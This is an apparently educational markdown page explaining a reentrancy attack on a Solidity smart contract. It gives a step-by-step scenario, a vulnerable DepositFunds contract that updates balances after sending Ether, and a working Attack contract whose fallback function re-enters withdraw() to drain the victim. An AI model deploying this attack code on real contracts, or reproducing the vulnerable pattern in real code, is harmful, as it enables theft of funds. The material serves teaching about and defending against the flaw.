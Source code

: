 ```yaml
---
description: 'Reference: https://hackernoon.com/hack-solidity-reentrancy-attack'
---
```


# Scenarios

### Reentrancy Attack Scenario

\


1. The vulnerable smart contract has 10 eth.
2. An attacker stores 1 eth using the deposit function.
3. An attacker calls the withdraw function and points to a malicious contract as a recipient.
4.  Now withdraw function will verify if it can be executed:

    \


* Does the attacker have 1 eth on their balance? Yes – because of their deposit.
* Transfer 1 eth to a malicious contract. (Note: attacker balance has NOT been updated yet)
*   Fallback function on received eth calls withdraw function again.

    \


1.  Now withdraw function will verify if it can be executed:

    \


* Does the attacker have 1 eth on their balance? Yes – because the balance has not been updated.
* Transfer 1 eth to a malicious contract.
* and again until the attacker will drain all the funds stored on the contract

\


Below is the contract, which contains the reentrancy vulnerability.

\


```javascript
contract DepositFunds {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }


}
```

\


The vulnerability comes where we send the user their requested amount of ether. In this case, the attacker calls withdraw() function. Since his balance has not yet been set to 0, he is able to transfer the tokens even though he has already received tokens.

\


Now, let's consider a malicious attacker creating the following contract.

\


```javascript
contract Attack {
    DepositFunds public depositFunds;

    constructor(address _depositFundsAddress) {
        depositFunds = DepositFunds(_depositFundsAddress);
    }

    // Fallback is called when DepositFunds sends Ether to this contract.
    fallback() external payable {
        if (address(depositFunds).balance >= 1 ether) {
            depositFunds.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        depositFunds.deposit{value: 1 ether}();
        depositFunds.withdraw();
    }


}
```

\


The attack function calls the withdraw function in the victim’s contract. When the token is received, the fallback function calls back the withdraw function. Since the check is passed contract sends the token to the attacker, which triggers the fallback function.

\
